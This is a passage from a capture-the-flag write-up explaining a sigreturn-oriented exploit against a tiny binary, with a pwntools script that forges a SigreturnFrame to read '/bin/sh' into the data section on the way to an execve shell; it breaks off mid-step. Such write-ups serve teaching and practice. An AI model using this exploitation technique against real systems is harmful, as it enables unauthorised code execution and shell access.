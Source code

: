 Our goal will usually be to call execve("/bin/sh"). The rax value for execve is 0x3b, which we can create with the right amount of input bytes. However, we need a pointer to the string "/bin/sh" in rdi, and there is no easy way of doing that as our input is put on the stack, which has a random base address every time.

This caused me to consider different syscalls, and I remembered that I recently participated in a CTF with a similarly tiny binary, in which the solution used the sigreturn syscall. The sigreturn syscall ([man sigreturn](https://man7.org/linux/man-pages/man2/sigreturn.2.html)) is used in certain cases when returning from kernel to user space. The functionality we will use is that it clears all the registers and fills them with values from the stack (a sigreturn frame). Since we control 0x1000 bytes of the stack, we can create our own sigreturn frame and fill all of the registers with whatever we want!

This gives us a lot more control in terms of what syscall to call and with what parameters, however we still dont have a consistent pointer to "/bin/sh". Here is where i overcomplicated things a bit. I decided to use the read syscall to read "/bin/sh" from stdin to 0x402000, which is the address of the data section (this address can for example be found with `vmmap`). We can use the following pwntools magic to create our sigreturn frame for read.

```py
from pwn import *

context.arch = 'amd64' # This is necessary for SigreturnFrame(), don't ignore it

p = process("./chall")
# gdb.attach(p)
# p = remote("10.212.138.23", 51101)

syscall = 0x401038
vuln = 0x401000

frame = SigreturnFrame()
frame.rax = 0 # read
frame.rdi = 0 # stdin
frame.rsi = 0x402000 # address to read to
frame.rdx = 1000 # number of bytes to read
frame.rip = syscall

payload = b"A"*24
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.interactive()
```

Running this and inspecting it in gdb shows us that we forgot an important part. Since our input is now many hundreds of bytes long (yes, the sigreturn frame is quite large), rax is not what it needs to be at the end of vuln. We need rax to be 15. Our solution for this is to first call vuln once more after sending our first input. Then we will send 14 bytes and a newline (15 total) to place 15 in rax, and afterwards it will call the syscall sigreturn. We do this by changing the last part of the above code to this:
